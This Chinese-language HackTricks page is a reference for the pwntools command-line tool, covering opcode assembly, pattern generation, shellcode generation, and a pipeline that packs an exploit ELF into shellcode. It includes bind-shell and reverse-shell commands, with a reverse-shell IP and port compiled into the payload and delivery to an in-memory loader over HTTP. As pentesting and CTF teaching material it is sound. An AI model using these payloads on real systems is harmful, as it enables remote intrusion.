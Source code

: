 # PwnTools

{{#include ../../../banners/hacktricks-training.md}}
```
pip3 install pwntools
```
## Pwn asm

从行或文件获取 **opcodes**.
```
pwn asm "jmp esp"
pwn asm -i <filepath>
```
**可以选择：**

- 输出类型 (raw,hex,string,elf)
- 输出文件上下文 (16,32,64,linux,windows...)
- 避免字节 (new lines, null, a list)
- 选择 encoder、debug shellcode，并使用 gdb 运行输出

## **Pwn checksec**

Checksec 脚本
```
pwn checksec <executable>
```
## Pwn constgrep

## Pwn cyclic

获取一个模式
```
pwn cyclic 3000
pwn cyclic -l faad
```
**可以选择：**

- 使用的字母表（默认 lowercase chars）
- uniq pattern 的长度（默认 4）
- context（16,32,64,linux,windows...）
- 获取偏移量（-l）

## Pwn debug

将 GDB 附加到进程上
```
pwn debug --exec /bin/bash
pwn debug --pid 1234
pwn debug --process bash
```
**可以选择：**

- 按 executable、按 name 或按 pid 上下文 (16,32,64,linux,windows...)
- 要执行的 gdbscript
- sysrootpath

## Pwn disablenx

禁用二进制的 nx
```
pwn disablenx <filepath>
```
## Pwn disasm

反汇编 hex opcodes
```
pwn disasm ffe4
```
**可以选择：**

- context (16,32,64,linux,windows...)
- base addres
- color(default)/no color

## Pwn elfdiff

打印两个文件之间的差异
```
pwn elfdiff <file1> <file2>
```
## Pwn hex

获取十六进制表示
```bash
pwn hex hola #Get hex of "hola" ascii
```
## Pwn phd

获取 hexdump
```
pwn phd <file>
```
**可以选择：**

- 要显示的字节数
- 每行字节数与高亮字节
- 跳过开头的字节数

## Pwn pwnstrip

## Pwn scrable

## Pwn shellcraft

获取 shellcodes
```
pwn shellcraft -l #List shellcodes
pwn shellcraft -l amd #Shellcode with amd in the name
pwn shellcraft -f hex amd64.linux.sh #Create in C and run
pwn shellcraft -r amd64.linux.sh #Run to test. Get shell
pwn shellcraft .r amd64.linux.bindsh 9095 #Bind SH to port
```
**可选择：**

- shellcode 及其参数
- 输出文件
- 输出格式
- debug（attach dbg 到 shellcode）
- before（在代码之前放置 debug trap）
- after（在代码之后）
- avoid using opcodes（默认：不含 null 和换行符）
- 运行 shellcode
- 有色/无色
- 列出 syscalls
- 列出可用的 shellcodes
- 生成 ELF 作为 shared library

## Pwn template

获取一个 python 模板
```
pwn template
```
**可选择：** host, port, user, pass, path and quiet

## Pwn unhex

从 hex 到 string
```
pwn unhex 686f6c61
```
## Pwn 更新

更新 pwntools
```
pwn update
```
## ELF → raw shellcode 打包 (loader_append)

Pwntools 可以将独立的 ELF 转换为单个 raw shellcode blob，自动映射其段并将执行权转移到原始入口点。对于仅内存加载器（例如，Android apps invoking JNI to execute downloaded bytes）这是理想的选择。

典型流程（amd64 示例）

1) 构建一个静态、位置无关的 payload ELF（推荐使用 musl 以提高可移植性）：
```bash
musl-gcc -O3 -s -static -o exploit exploit.c \
-DREV_SHELL_IP="\"10.10.14.2\"" -DREV_SHELL_PORT="\"4444\""
```
2) 使用 pwntools 将 ELF 转换为 shellcode:
```python
# exp2sc.py
from pwn import *
context.clear(arch='amd64')
elf = ELF('./exploit')
sc = asm(shellcraft.loader_append(elf.data, arch='amd64'))
open('sc','wb').write(sc)
print(f"ELF size={len(elf.data)} bytes, shellcode size={len(sc)} bytes")
```
3) 将 sc 传送到内存加载器（例如，通过 HTTP[S]）并在进程内执行。

说明
- loader_append 将原始 ELF 程序嵌入到 shellcode 中，并发出一个小型 loader，mmaps the segments and jumps to the entry。
- 通过 context.clear(arch=...) 明确指定架构。arm64 在 Android 上很常见。
- 保持 payload 的代码位置独立（position-independent），并避免对进程的 ASLR/NX 做出假设。

## 参考

- [Pwntools](https://docs.pwntools.com/en/stable/)
- [CoRPhone – ELF→shellcode pipeline used for Android in-memory execution](https://github.com/0xdevil/corphone)

{{#include ../../../banners/hacktricks-training.md}}
